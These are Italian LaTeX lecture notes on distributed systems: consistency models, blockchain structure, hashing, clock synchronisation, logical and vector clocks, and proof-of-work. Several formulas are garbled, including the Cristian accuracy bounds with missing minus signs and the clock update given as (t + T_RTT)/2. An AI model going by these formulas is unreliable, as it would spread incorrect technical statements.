    \item \textbf{sistema CP}: il sistema può non essere disponibile ad eseguire una \texttt{write}. Lo sviluppatore deve gestire il fallimento di una \texttt{write} causato dall'eventuale indisponibilità del sistema.
    \item \textbf{sistema AP}: il sistema può accettare sempre una \texttt{write}, ma sotto certe condizioni una \texttt{read} non riporterà il risultato della \texttt{write} più recente. Lo sviluppatore deve decidere se il client può richiedere sempre l'accesso all'ultimo aggiornamento.
\end{itemize}

\subsection{Eventual Consistency}
In un archivio di dati distribuito caratterizzato da mancanza di conflitti \texttt{write/write} o comunque di facile soluzione in caso di conflitto, e con forte prevalenza di letture rispetto alle scritture, si adotta spesso un modello di consistenza rilassato, detto \textbf{consistenza finale} (eventual consistency). Questa garantisce che se non si verificano aggiornamenti, tutte le repliche (distribuite geograficamente) diventano gradualmente consistenti entro una finestra temporale (detta inconsistency window). In assenza di failure, la dimensione della inconsistency window dipende da ritardi di comunicazione, carico del sistema e numero di repliche.

I vantaggi di questa implementazione sono dati dal fatto che è semplice da realizzare e poco costosa; tuttavia c'è uno svantaggio: se l'utente accede a repliche diverse in un breve intervallo di tempo, potrebbe accedere a dati non aggiornati: in tal caso occorre risolvere il conflitto (\textit{reconciliation}).

\vspace{5mm}

L'Eventual consistency è un modello di consistenza spesso adottato nei sistemi distribuiti a larga scala, in particolare per servizi di storage e datastore NoSQL in ambito Cloud (Amazon S3, Apache, Dropbox, e qualche servizio Google).

C'è da dire però che il costo di garantire un maggior livello di consistenza ricade sullo sviluppatore dell'applicazione. Con la consistenza finale, può accadere che una \texttt{read} non restituisca il valore della \texttt{write} più recente: lo sviluppatore deve decidere se tale inconsistenza è accettabile per l'utente dell'applicazione.

\subsection{Risoluzione dei conflitti e ACID vs BASE}
Strategie per decidere come risolvere conflitti su copie divergenti a causa di aggiornamenti concorrenti.
Un approccio comune è quello del \textit{last writer wins} (come in Cassandra): etichettare i dati con orologi vettoriali per catturare la causalità tra diverse versioni dei dati.

Un'alternativa è demandare la risoluzione all'applicazione stessa (come in Amazon Dynamo) che invoca un gestore dei conflitti specificato dall'utente. Tipicamente la riconciliazione viene fatta a tempo di \texttt{read}.

\vspace{5mm}

ACID e BASE sono filosofie di design agli estremi opposti dello spettro \textit{consistency - availability}:

\textbf{ACID (Atomicity, Consistency, Isolation, Durability}:
\begin{itemize}
    \item Approccio tradizionale per garantire consistenza nei DBMS
    \item DMBS tramizionali (Postgres, MySQL) sono esempi di sistemi CP
    \item Approccio pessimistico: non scalabile quando bisogna gestire migliaia di terabyte di dati
\end{itemize}

\textbf{BASE (Basically Available, Soft state, Eventual consistency}:
\begin{itemize}
    \item Approccio ottimistico e per sistemi AP
    \item Basically available: il sistema è disponibile per la maggior parte del tempo, potrebbero esserci sottoinsiemi temporaneamente non disponibili
    \item Soft state: la persistenza è gestita dall'utente, che deve preoccuparsi di aggiornare i dati
    \item Eventualli consistent: il sistema prima o poi converge ad uno stato consistente
    \item Soft state ed eventual consistency sono tecniche che funzionano bene in presenza di partizionamenti, favorendo la disponibilità. È tipicamente adottato in database NoSQL
\end{itemize}

\subsection{Modelli user-centrici}
La consistenza in questi modelli è di quattro tipi diversi:
\begin{itemize}
    \item \textbf{monotonic-read} (read-after-read)
    \item \textbf{monotonic-write} (write-after-write)
    \item \textbf{read-your-writes} (read-after-write)
    \item \textbf{writes-follow-reads} (write-after-read)
\end{itemize}

L'obiettivo è fornire garanzie ad un singolo client relative alla consistenza degli accessi da parte di quel client ad un archivio di dati distribuito. Non viene data alcuna garanzia di consistenza relativamente agli accessi concorrenti da parte di altri client.

Alcune spiegazioni che potrebbero servire:
\begin{itemize}
    \item $x_{i}[t]$: versione di $x$ sulla copia locale $L_{i}$ al tempo $t$
    \item $WS(x_{i}[t])$: sequenza di operazioni di scrittura (Write Set) su $L_{i}$ che hanno portato come risultato a $x_{i}[t]$
    \item $WS(x_{i}[t_{1}]; x_{j}[t_{2}])$: le operazioni in $WS(x_{i}[t_{1}])$ sono state eseguite anche su $L_{j}$ in un tempo successivo $t_{2}$
    \item significa che $WS(x_{i}[t_{1}])$ è parte di $WS(x_{j}[t_{2}])$
    \item assumiamo che solo il processo proprietario dei dati possa modificarli (assenza di conflitti \texttt{write/write})
\end{itemize}

\subsubsection{MONOTONIC READ}
Se un processo legge il valore di un dato \textit{x}, qualunque successiva operazione di lettura su x da parte di quel processo restituirà sempre quello stesso valore o un valore più recente.

Ad esempio, leggere automaticamente gli aggiornamenti al proprio calendario personale da diverse repliche del servizio: la consistenza \textit{monotonic-read} garantisce all'utente di vedere tutti gli aggiornamenti, a prescindere dalla replica su cui avviene la lettura.

Un altro esempio è leggere senza modificare la posta in arrivo mentre ci si sposta: ogni volta che l'utente si connette ad una diversa replica del mail server, la replica carica tutti gli aggiornamenti relativi alla mailbox dell'utente dalla replica usata precedentemente.

\subsubsection{MONOTONIC WRITE}
Un'operazione di scrittura da parte di un processo su un dato \textit{x} viene completata prima di qualunque operazione di scrittura successiva su x da parte dello stesso processo. L'archivio garantisce di serializzare le scritture per il singolo client.

Ad esempio, mantenere versioni di file replicati nell'ordine corretto su ogni server, propagando la versione precedente sul server dove è installata la nuova versione.

\subsubsection{READ YOUR WRITES}
L'effetto di un'operazione di scrittura da parte di un processo su un dato \textit{x} sarà sempre visto da una successiva operazione di lettura di \textit{x} da parte dello stesso processo. È un caso speciale di consistenza causale per il singolo client.

Ad esempio, aggiornare la propria pagina web e garantire che il browser mostri la versione più recente anziché la copia in cache.

\subsubsection{WRITES FOLLOW READS}
Un'operazione di scrittura da parte di un processo su un dato \textit{x} che segue una precedente operazione di lettura di \textit{x} da parte dello stesso processo ha luogo sullo stesso valore di \textit{x} che è stato letto o su un valore più recente.

Ad esempio, vedere i commenti ad un articolo inserito in un \textit{newsgroup} solo se è stato visto l'articolo originale.



\chapter{Le Blockchain}
L'obiettivo principale delle Blockchain è quello di trasferire un bene tra due nodi di una rete in maniera affidabile e sicura. Si possono tuttavia verificare delle condizioni di fallimento, elencate di seguito:
\begin{itemize}
    \item \textbf{Modelli di fallimento}:
    \begin{itemize}
        \item \textbf{Fallimenti dei nodi} - crash o hang
        \item \textbf{Fallimenti dei link} - crash persistente o intermittente
        \item \textbf{Malfunzionamenti di rete} - perdita, alterazione o ritardo anormale di pacchetti o partizionamento della rete
    \end{itemize}
    \item \textbf{Modelli di attacco}:
    \begin{itemize}
        \item \textbf{Replay attack} - una transazione valida viene maliziosamente ripetuta o ritardata
        \item \textbf{Man-in-the-middle attack} - la comunicazione è osservata e alterata da una terza parte non autorizzata
        \item \textbf{Masquerade attack} - un nodo malizioso utilizza un'identità forgiata ad hoc per la comunicazione, oppure un nodo impersona un altro
        \item \textbf{Comportamento bizantino} - un nodo si comporta in modo non previsto
    \end{itemize}
\end{itemize}
La modalità comunemente adottata nelle transizioni finanziarie è con un mediatore, che di solito è la banca. Questa è garante in caso di manomissioni o fallimenti. Questa soluzione è implementata con il \textbf{2-phase-commit}, algoritmo distribuito per le transazioni che avvengono in database non uniformi ma splittati in più sorgenti. Il 2-phase-commit fa sì che il richiedente non contatti tutte le sorgenti del db ma che sottometta la transazione ad un mediatore che si occupa di dividerla in sottotransazioni che vengono poi inviate alle varie sorgenti del db. 

La soluzione con mediatore consente di gestire gli attacchi di tipo masquerade o bizantini, in quanto il mediatore conosce le identità delle sorgenti autorizzate, quindi può implementare meccanismi di verifica dell'identità; inoltre conosce il comportamento giusto, e può estromettere dal sistema qualsiasi nodo non rispetti quel comportamento.

\vspace{5mm}
Per inviare un bene senza la collaborazione di un'entità di terze parti si può definire un protocollo per eseguire transazioni affidabili e sicure in un ambiente inaffidabile e insicuro. L'idea è quindi di decentralizzare il sistema, ma c'è bisogno di tenere sotto controllo tre importanti proprietà: integrità del messaggio tramite hash, identità dei nodi tramite firma digitale e consenso per la validità delle transazioni.

Le valute correnti posseggono un modello di trust che si basa sul mercato e sui sistemi economici di uno stato, quindi legati alla banca centrale. Una valuta virtuale è legata direttamente ad una valuta, ma è espressa diversamente, ad esempio la valuta presente nei videogiochi. Una criptovaluta è un tipo di valuta slegata da una banca centrale e che ha valore solo nel mondo digitale. L'obiettivo della blockchain a supporto del bitcoin è di creare un ambiente decentralizzato in cui nessuna terza parte abbia il controllo delle transazioni e dei dati.

\vspace{5mm}

Le blockchain sono state teorizzate a supporto delle cosiddette criptovalute, ovvero una rappresentazione digitale di valore basata sulla crittografia e senza intermediazione. Una \textbf{criptovaluta} è una moneta creata da una soluzione computazionale decentralizzata e distribuita, governata dalla regola della maggioranza con transazioni tra due partecipanti, senza intermediazione. Le transazioni richiedono minuti e dipendono dalla qualità della rete, inoltre nessuna alterazione è possibile dopo il completamento di una transazione. Il valore di una criptovaluta viene regolato dalla domanda e dall'offerta del mercato, e non può essere manipolato in quanto la creazione dei nuovi Bitcoin è regolata matematicamente e non stampata su comando delle varie banche centrali sparse per il mondo. Non esiste in forma fisica, ma si genera e si scambia esclusivamente per via telematica.

La \textbf{moneta legale}, d'altra parte, è rilasciata dal governo ed è governata da una banca centrale, che ne fa da intermediario per le transazioni. Le transazioni locali ed internazionali possono richiedere giorni, e sono possibili alterazioni dopo il completamento di una transazione. Ha un valore grazie al fatto che esiste un'autorità (lo Stato) che agisce come se avesse questo valore. Se un'organizzazione abbastanza grande emette, usa e accetta qualcosa come pagamento, automaticamente quel qualcosa acquisisce valore. Ha un valore non coperto da riserve di altri materiali (es. riserve auree) e quindi è privo di valore intrinseco.

Le criptovalute rientrano nel caso delle valute virtuali ma sono diverse dalle valute digitali:
\begin{itemize}
    \item una valuta virtuale è una rappresentazione digitale di valore che non è né emessa da una banca centrale né da un'autorità pubblica, né necessariamente collegata a una valuta a corso legale, ma è accettata come mezzo di pagamento e può essere trasferita, archiviata, o scambiata elettronicamente.
    \item una valuta digitale è una rappresentazione nel virtuale di una valuta a corso legale.
    \end{itemize}

\section{Struttura della Blockchain}
La blockchain ha radici storiche. Anni fa esistevano dei registri chiamati \textit{libri mastri}, nei quali erano contenute tutte le transazioni eseguite tra i partecipanti di un sistema. Le operazioni sono indicate in ordine cronologico e sono possibili solo inserimenti in coda. Quindi si tratta di un\textit{"append-only multi-party system of records"}, ovvero un log di transazioni.

Una variante del libro mastro è il libro mastro distribuito, detto \textbf{ledger}, nel quale c'è un insieme di nodi che ha una copia del libro mastro. I record delle transazioni sono memorizzati in una copia locale del libro in maniera sequenziale sottoforma di blocchi ordinati temporalmente\footnote{Questa tecnologia viene chiamata \textit{Distribuited Ledger Technology}}. Affinché i blocchi siano considerati validi, i partecipanti devono raggiungere un consenso. Ogni blocco (ad eccezione del genesis block) contiene un'informazione (di solito l'hash) del blocco precedente nella catena.

\vspace{5mm}

Un \textbf{blocco} è una collezione di transazioni, ed è una struttura dati divisa in tre parti: 
\begin{itemize}
    \item \textbf{nonce} (ctr): in genere chiamato intestazione del blocco,
    \item \textbf{dati} (x): dipende dall'applicazione: in Bitcoin memorizza i dati finanziari, in Ethereum memorizza i dati del contratto, in Namecoin memorizza i dati del nome.
    \item \textbf{riferimento} (s): contiene il riferimento al blocco precedente.
\end{itemize}
Il sistema garantisce che i blocchi siano sempre validi. Se un blocco viene modificato, l'hash contenuto nel blocco successivo non è più valido. L'immutabilità garantisce di evitare modifiche a qualsiasi transazione sia stata già validata.

\subsection{Funzioni Hash}
Le funzioni di hash restituiscono una stringa di poche centinaia di bit - e comunque di lunghezza fissata - (definita hash o impronta digitale) a partire da una sequenza di bit di lunghezza arbitraria. La possibilità che due sequenze di bit sottomesse alla stessa funzione di hash diano origine allo stesso valore (collisione) è definita \textit{paradosso del compleanno}, rifacendosi al famoso paradosso della probabilità.

Una funzione di hash che produce un risultato su N bit sarà reputata insicura quando verranno generati $2^{\frac{N}{2}}$ risultati in quanto si ha la probabilità di oltre il 50\% di aver trovato una collisione. Il risultato evidentemente è ben al di sotto dei $2^{N-1}$ elementi necessari suggeriti dall'intuito.

Le funzioni di hash crittografiche cercano di rendere computazionalmente inammissibile trovare due sequenze che producono la stessa impronta.

\vspace{5mm}

Nella Blockchain, un blocco è collegato al precedente mediante un hash del blocco precedente. La modifica di un blocco della catena da parte di un nodo comporterebbe la generazione di un valore di hash differente: gli altri nodi possono verificare l'integrità dei blocchi e rifiutare modifiche di transazioni già validate. Il contesto del libro mastro è reso così immutabile.

Consideriamo un esempio nel quale un utente desidera archiviare un file su un server; il file ha un nome F e un contenuto D; gli utenti desiderano recuperare il file F in un secondo momento. Vediamo cosa accade nel dettaglio:
\begin{itemize}
    \item l'utente invia il file F con il contenuto D al server;
    \item il server archivia (F,D);
    \item l'utente elimina D;
    \item l'utente richiede F dal server;
    \item il server restituisce D;
    \item l'utente ha recuperato D.
\end{itemize}
Ma cosa succede se il server è contraddittorio e restituisce D' $\neq$ D? Banalmente, l'utente potrebbe non eliminare D e quando il server restituisce D'. l'utente confronta D e D'. Ma cosa succede se l'utente non dispone di memoria sufficiente per archiviare D per molto tempo? Può usare le funzioni hash:
\begin{itemize}
    \item l'utente invia il file F con i dati D al server;
    \item il server archivia (F,D);
    \item l'utente memorizza H(D) ed elimina D;
    \item l'utente richiede F dal server;
    \item il server restituisce D';
    \item l'utente confronta H(D') = H(D).
\end{itemize}
Tuttavia ci sono soluzioni migliori: i file infatti vengono divisi in chunk, e viene calcolato l'hash di ogni chunk utilizzando una funzione hash crittografica (SHA256). Dopodiché gli hash vengono combinati a due a due costruendo quello che viene chiamato \textbf{albero di Merkle}\footnote{Vedi par. 1.2.5.}.

Gli alberi di Merkle vengono ampiamente utilizzati nella Blockchain per controllare le \textit{proof of inclusion} di una transazione all'interno del blocco dati.

\subsection{Funzioni di sicurezza}
Sebbene applicate a problemi in cui si vuole fare a meno di \textit{trusted entities}, le tecnologie blockchain utilizzano anch'esse la firma digitale (e le \textit{trusted authorities} di certificazione) per problemi di sicurezza tipici dei sistemi distribuiti:
\begin{itemize}
    \item \textbf{Authentication}: autenticazione dei nodi della rete;
    \item \textbf{Integrity}: verifica di violazioni dell'integrità dei messaggi scambiati;
    \item \textbf{Non-repudiation}: non ripudio da parte dei nodi dei messaggi inviati.
\end{itemize}
Si consideri un nodo che desidera "vendere" un bene attraverso una transazione. Il nodo predispone da sé la transazione, che deve sottoporre agli altri nodi affinché sia validata da una maggioranza. È possibile che il nodo provi a "spendere" concorrentemente due volte lo stesso bene (double spending): ciò può avvenire in maniera consapevole (comportamento bizantino) o in maniera inconsapevole (malfunzionamenti di rete, replay attack). La validità di transazione è un problema di consenso.

\vspace{5mm}

Un primo passo per risolvere il problema del \textit{double spending} è determinare se un messaggio è "fresco" o è una copia ritrasmessa. È necessario poter identificare univocamente un messaggio contenente un blocco di transazioni eseguite. Un \textbf{nonce} è definito come \textit{"a time-varying value that has at most a negligible chance of repeating, e.g., a random value that is generated anew for each use, a timestamp, a sequence number, or some combination of these."} [NIST SP-800-90]. Un nonce quindi può essere ottenuto attraverso un timestamp. Per garantire che ogni blocco sia caratterizzato da un valore differente è necessario che tale valore sia generato da una fonte fidata. L'ideale sarebbe effettuare un ordinamento totale su tempo locale, ma come sappiamo non è fattibile a causa della natura distribuita del sistema.

\section{Il tempo nei sistemi distribuiti}
In un sistema distribuito, ogni nodo è dotato di un proprio orologio, ed è possibile che ad un evento x, che accade "dopo" un altro evento y, sia associato un istante "antecedente" quello di y: ciò comporta problemi in molte applicazioni.
L'occorrenza di una singola azione in p\textsubscript{i} è un evento e. L'insieme degli eventi di un processo p\textsubscript{i} può essere ordinato totalmente in base alla relazione di \textbf{precedenza temporale}:

\vspace{5mm}

\begin{center}
    $e \rightarrow e'$ se e solo se $e$ si è verificato prima di $e'$ in p\textsubscript{i}.
\end{center}

\vspace{5mm}

L'ordinamento è ben definito (anche in caso di multithreading) in quanto ciascun processo è in esecuzione su un processore dedicato. La storia (history) di un processo p\textsubscript{i} è la successione di eventi che ha luogo in p\textsubscript{i}, ordinata in base alla relazione $\rightarrow$:

\vspace{5mm}

\begin{center}
    storia(p\textsubscript{i}) = h\textsubscript{i} = <$e_{i}^{0}, e_{i}^{1}, e_{i}^{2}, ...$>
\end{center}

\vspace{5mm}

Per marcare gli eventi viene utilizzato un orologio fisico. 

\subsection{Orologi fisici}
Un orologio fisico di un computer (computer clock, meglio detto \textit{timer}), è un dispositivo tipicamente costituito da:
\begin{itemize}
    \item un cristallo di quarzo, che oscilla a una frequenza nota;
    \item un registro contatore;
    \item un registro di inizializzazione;
    \item un registro di memorizzazione.
\end{itemize}
Ciascuna oscillazione del cristallo decrementa il contatore di una unità. Quando il contatore raggiunge lo zero, viene reimpostato al valore indicato dal registro di inizializzazione.

Il clock può dunque essere programmato per generare interruzioni periodiche (clock tick) ad esempio 60 volte al secondo. Ad ogni interruzione, il valore del registro di memorizzazione viene aggiornato. Il risultato è il valore di un clock hardware H\textsubscript{i}(t). 

Il sistema operativo legge dal registro il valore H\textsubscript{i}(t) del clock hardware, lo moltiplica per un fattore di scale ed aggiunge un offset, fornendo il valore di un clock software: C\textsubscript{i}(t) = $\alpha$ H\textsubscript{i}(t) + $\beta$. Il clock software rappresenta una misura approssimata del tempo effettivo $t$ per il processo p\textsubscript{i}.

A due eventi successivi possono essere associati valori distinti di C\textsubscript{i}(t) solo se la risoluzione del clock (periodo tra gli aggiornamenti del clock) è minore dell'intervallo temporale tra i due eventi.

\vspace{5mm}

Il \textbf{tempo effettivo} (o reale) $t$ è il tempo "vero" in ciascun istante, in un sistema di riferimento assoluto nominale, indicato da un ideale orologio di riferimento perfetto. Distinguiamo poi altri attributi:
\begin{itemize}
    \item \textbf{Clock offset}: differenza tra la lettura istantanea del clock locale rispetto a $t$ (o rispetto a un altro clock);
    \item \textbf{Clock frequency}: il tasso con cui il clock locale progredisce (derivata prima rispetto a $t$);
    \item \textbf{Clock skew}: differenza tra le frequenze del clock locale e reale;
    \item \textbf{Clock drift}: variazione nel tempo della frequenza del clock locale (derivata seconda del clock locale rispetto a $t$);
    \item \textbf{Clock adjustment}: variazione subitanea degli attributi di un clock locale, per effetto di un'azione di sistema o di utente.
\end{itemize}
Spesso la differenza tra le letture di due orologi viene indicata con il termine \textit{clock skew}, anziché \textit{clock offset}. Nei sistemi basati su blockchain i timestamp devono essere più vicini possibili a meno di un errore minimale.

\subsection{Sincronizzazione dei clock}
Per molte applicazioni l'ora "effettiva" è fondamentale, per cui sono spesso necessari orologi fisici esterni. Per ragioni di efficienza e affidabilità gli orologi sono tipicamente ridondanti. Si pongono due tipi di problemi:
\begin{itemize}
    \item \textbf{sincronizzazione esterna}: ovvero come sincronizzare un orologio locale con un orologio esterno - algoritmo di Cristian (1989);
    \item \textbf{sincronizzazione interna}: ovvero come sincronizzare più orologi tra loro - algoritmo di Berkeley (1989).
\end{itemize}

\subsection{Algoritmo di Cristian}
È un algoritmo di sincronizzazione esterna che si basa sull'utilizzo di un time server passivo, dotato di un dispositivo che riceve il segnale di una sorgente UTC. Su richiesta, un processo server invia un messaggio contenente l'ora $t$, misurata col proprio orologio basato su UTC.

\begin{figure}[ht]
    \centering
    
\includegraphics[width=8cm]{./Images/cap3/3.1.png}
\end{figure}

Il processo cliente $p$ misura il \textit{round trip time} $T_{RTT}$ come intervallo temporale tra gli istanti $T_{0}$ e $T_{1}$. L'accuratezza della misura dipende dal clock drift. Tipicamente si può assumere che $p$ possa poi aggiornare il clock locale al valore $(t + T_{RTT})/2$.

\vspace{5mm}

Cristian definisce il suo algoritmo probabilistico: si raggiunge la sincronizzazione solo se il \textit{round trip time}(RTT) dei messaggi è sufficientemente piccolo rispetto all'accuratezza richiesta. Ad esempio, su una rete LAN, il RTT generalmente non supera i 10 ms. Un clock con un drift rate di $10^{-6}$ secondi al secondo varia non più di $10^{-5}$ ms.

Detto \textit{min} il tempo minimo di trasmissione dei messaggi, l'ora dell'orologio del server all'istante $T_{1}$ è compresa in [$t + min, t + T_{RTT} min$], con intervallo ampio $2 T_{RTT} min$. L'accuratezza è quindi $\pm (T_{RTT}/2 min)$.

\subsection{Algoritmo di Berkeley}
È un algoritmo di sincronizzazione interna ideato principalmente per reti intranet. Si basa sull'utilizzo di un time server attivo: un nodo viene selezionato come \textbf{master}, gli altri nodi con cui deve essere effettuata la sincronizzazione fanno da \textbf{slave}.

Il master deve:
\begin{itemize}
    \item effettuare periodicamente il polling dei nodi slave;
    \item calcolare una stima dell'ora locale di ciascuno slave, in base al \textit{round trip time} (come nell'algoritmo di Cristian);
    \item calcolare l'ora media (inclusa la propria);
    \item comunicare ad ogni slave di quanto variare il clock locale.
\end{itemize}
L'accuratezza dell'algoritmo dipende dal round trip time dei messaggi tra il master e gli slave. Per aumentarla, il master deve:
\begin{itemize}
    \item stimare un round trip time massimo nominale;
    \item eliminare dal calcolo della media le letture dei clock associate a valori del round trip time maggiori del massimo.
\end{itemize}
In questo modo di limita l'effetto dei clock con i quali il RTT è troppo variabile.

Per aumentare ulteriormente la precisione, l'algoritmo prevede di non considerare le letture di eventuali faulty clocks. A tale scopo, il master considera nel calcolo della media solo il sottoinsieme dei clock locali che non differiscono tra essi più di un valore prestabilito. Si dice che il master effettua una media tollerante ai guasti (fault tolerant average). Nel caso in cui il master si guasti, è prevista l'elezione di un nuovo master.

\subsection{Network Time Protocol}
È un protocollo per un \textit{time service} per nodi di rete internet. L'obiettivo di NTP è di offrire ai nodi internet un servizio di sincronizzazione con l'ora UTC. Questo servizio deve essere offerto in modo:
\begin{itemize}
    \item affidabile, anche in caso di lunghe perdite di connettività;
    \item scalabile, adatto all'elevato numero di client e server su internet;
    \item sicuro, mediante meccanismi di protezione da interferenze accidentali o maliziose con il time service.
\end{itemize}
Il servizio NTP è fornito da una rete di server connessi a internet, secondo un'organizzazione logica gerarchica. 

I server NTP sono classificati in \textbf{server primari}, direttamente connessi a una sorgente UTC, e \textbf{server secondari}, sincronizzati direttamente con server primari; inoltre possono sincronizzarsi secondo tre modalità: multicast, procedure call e symmetric.
\begin{itemize}
    \item Il \textit{multicast mode} è previsto per reti LAN. Il server effettua periodicamente il multicast dell'ora ai nodi sull LAN. I nodi regolano la propria ora su quella del server.
    \item Il \textit{procedure call mode} è analogo all'algoritmo di Cristian: il server accetta richieste e risponde con la lettura corrente del proprio clock. Questa modalità è usata ad esempio dai file server su una LAN o su LAN adiacenti.
    \item Il \textit{symmetric mode} è usato dai livelli più bassi della gerarchia per raggiungere maggiore precisione.
\end{itemize}
Tutte le modalità usano messaggi UDP. In \textit{procedure call mode} e \textit{symmetric mode}, i server si scambiano coppie di messaggi che contengono l'ora locale dei due eventi-messaggio più recenti, oltre a quello corrente.

\begin{figure}[ht]
    \centering
    
\includegraphics[width=8cm]{./Images/cap3/3.2.png}
\end{figure}

\begin{itemize}
    \item $o$: offset vero del clock di B rispetto a quello di A
    \item $t, t'$: tempi di trasmissione effettivi di $m, m'$
    \item $T_{i-2} = T_{i-3} + t + o$
    \item $T_{i} = T_{i-1} + t' - o$
\end{itemize}
Per ogni coppia di messaggi vengono calcolati:
\begin{itemize}
    \item il delay $d_{i} = t + t' = T_{i-2} - T_{i-3} + T_{i} - T_{i-1}$
    \item una stima dell'offset $o_{i} = (T_{i-2} - T_{i-3} + T_{i-1} - T_{i})/2$
\end{itemize}
Si ha che:
\[ o = o_{i} + (t' - t)/2 \quad o_{i} - d_{i}/2 \leq o \leq o_{i} + d_{i}/2\]
L'accuratezza della stima $o_{i}$ è misurata da $d_{i}$.

\vspace{5mm}

La relazione tra eventi \textbf{Happened- before} (HB), indicata con il simbolo $\rightarrow$, è definita dalle condizioni:
\begin{itemize}
    \item HB1: se esiste un processo $ p_{i}$ tale che $e \rightarrow_{i} e'$ (cioè $p_{i}$ osserva che $e$ accade prima di $e'$), allora $e \rightarrow e'$
    \item HB2: per ogni messaggio $m$, \texttt{send(m)} $\rightarrow$ \texttt{receive(m)}
    \item HB3: se $e \rightarrow e'$ e $e' \rightarrow e''$, allora $e \rightarrow e''$ (proprietà transitiva)
\end{itemize}
La relazione \textit{happened-before} definisce un ordinamento parziale degli eventi in un sistema distribuito. Nel grafico seguente è mostrato un esempio.

\begin{figure}[hbt!]
    \centering
    
\includegraphics[width=10cm]{./Images/cap3/3.3.png}
\end{figure}

\subsection{Orologi logici}
Lamport ha ideato un semplice meccanismo (logical clocks) con cui esprimere numericamente la relazione HB tra eventi in un sistema distribuito.

Un orologio logico di Lamport (LC, o LLC) è un contatore software crescente monotonicamente; i suoi valori (interi) non sono necessariamente in relazione con quelli di un orologio fisico. Un LC viene tipicamente incrementato di 1, ma si può scegliere qualsiasi valore intero. 

Ogni processo ha il suo LC, che usa per marcare temporalmente gli eventi: $L_{i}(e)$ è la marcatura di $e$ da parte del processo $p_{i}$ che lo osserva (Lamport timestamp). Ogni processo aggiorna il proprio LC e lo invia insieme ai messaggi che trasmette, in base alle seguenti regole:
\begin{itemize}
    \item LC1: $L{i}$ è incrementato prima di ogni evento osservato da $p_{i}$
    \begin{itemize}
        \item $L_{i} := L_{i} + 1$
    \end{itemize}
    \item Quando $p_{i}$ invia un messaggio $m$, inserisce in $m$ il valore $t = L_{i}$ e chiama \texttt{send(m)}
    
    \item Quando $p_{j}$ riceve $(m,t)$ calcola $L_{j} := max(L_{j},t)$ e applica LC1 prima di marcare l'evento \texttt{receive(m)}
\end{itemize}

\begin{figure}[hbt!]
    \centering
    
\includegraphics[width=10cm]{./Images/cap3/3.4.png}
\end{figure}

Banalmente, per induzione vale che:

\[ e \rightarrow e' \Rightarrow L(e) < L(e')\]

Non vale il contrario, quindi non possiamo infierire l'ordine relativo di due eventi conoscendo le loro marche temporale. Infatti nell'immagine precedente vale che $L(b) > L(e)$ ma $b || e$.

Negli orologi logici è possibile manomettere le marcature temporali in quanto si basano sul corretto scambio di messaggi.

\subsection{Orologi vettori}
Un orologio vettore (VC) per un sistema di N processi è un array di N interi. Ogni processo detiene un proprio orologio vettore $V_{i}$ e aggiorna il proprio VC, inviandolo assieme ai messaggi che trasmette, in base alle seguenti regole:
\begin{itemize}
    \item VC1: inizialmente, $V_{i}[j] = 0$ con $i, j = 1, 2, ..., N$
    \item VC2: $V_{i}[i]$ è incrementato prima di ogni evento osservato da $p_{i}: V_{i}[i] := V_{i}[i] + 1$
    \item VC3: quando $p_{i}$ invia un messaggio $m$, inserisce in $m$ il vettore $t = V_{i}$
    \item VC4; quando $p_{i}$ riceve $(m,t)$, calcola $V_{i}[j] := max(V_{i}[j],t[j])$ con $j = 1, 2, ..., N$
\end{itemize}
Il valore in $V_{i}[i]$ rappresenta il numero di eventi che $p_{i}$ ha marcato. Il valore in  $V_{i}[j]$ ($i \neq j$) rappresenta il numero di eventi osservati da $p_{j}$ e dai quali $p_{i}$ è causalmente potenzialmente affetto ($p_{j}$ potrebbe aver marcato più eventi, ma di questi non è pervenuta informazione a $p_{i}$).

\begin{figure}[hbt!]
    \centering
    
\includegraphics[width=10cm]{./Images/cap3/3.5.png}
\end{figure}

Rispetto agli orologi scalari di Lamport, gli orologi vettore richiedono una occupazione di memoria e un \textit{payload} nei messaggi proporzionale al numero di processi N.

È lecito chiedersi se questo costo - oltre che sufficiente - sia necessario per poter stabilire quale tra due eventi sia in relazione HB con l'altro ispezionando solamente le marcature temporali.

In effetti, è stato dimostrato (Charron-Bost, 1991) che se si vuole stabilire l'ordinamento relativo tra due eventi in base ad orologi logici, un costo proporzionale a N è inevitabile. Naturalmente, se N è molto grande è possibile adoperare opportune tecniche di compressione per ridurre l'occupazione di memoria e il payload dei messaggi.

\subsection{Certificazione del tempo}
La certificazione del tempo serve a verificare quando un documento è stato creato, oppure quando è stata apportata l'ultima modifica in maniera affidabile e non falsificabile. Si impiega un \textit{Trusted Time Server} (TTS).
\begin{itemize}
    \item Prima soluzione: l'utente invia al TTS una copia del documento, e il TTS aggiunge data e ora e conserva il documento nella cassetta di deposito.
    \item Seconda soluzione: si impiega una primitiva crittografica per proteggere la privacy del documento, e ridurre i costi di trasmissione e memorizzazione: l'utente invia al TTS l'hash del documento. Il TTS aggiunge data, ora e firma e invia questo certificato all'utente.
\end{itemize}
Indipendentemente dalla correttezza del tempo certificato, si vuole che due documenti sottoposti sequenzialmente al TTS abbiano un nonce che esprima questa sequenzialità. Ogni certificato rilasciato contiene l'hash del documento, data, ora, firma del TTS e l'hash del certificato precedente o parte di esso. Complessivamente i certificati formano una catena di blocchi. È inammissibile inserire successivamente un certificato all'interno della catena, il TTS dovrebbe rilevare collisioni per la funzione hash.

Questa soluzione comporta una serie di vantaggi:
\begin{itemize}
    \item aggiungere il timestamp rende l'hash più resistente rispetto alle collisioni;
    \item risolve il problema del \textit{double spending} assegnando un ordine temporale alle transazioni e pubblicandole.
\end{itemize}
Per svincolarsi dall'utilizzo di un timestamp server, alcune soluzioni blockchain sfruttano un meccanismo differente per la generazione dei nonce. Tale meccanismo è definito \textbf{Proof-of-Work} (PoW). Per proporre un nuovo blocco da aggiungere al \textbf{ledger}, un nodo deve dimostrare di aver utilizzato abbastanza risorse di calcolo per risolvere un enigma matematico, il cui risultato è inserito nel blocco stesso. La PoW implica la computazione di un valore di hash con un determinato numero di bit iniziali pari a zero. Ogni nodo (detto \textit{miner}) cerca di trovare un nonce tale da soddisfare il vincolo sul numero di zero prodotti dalla funzione di hash.

Il lavoro medio richiesto è esponenziale rispetto al numero di bit zero richiesti e può essere verificato eseguendo un singolo hash. Tale operazione è molto onerosa dal punto di vista computazionale e richiede la collaborazione di diverse CPU e GPU per poter essere realizzata.

\subsection{Transazioni con consenso distribuito}
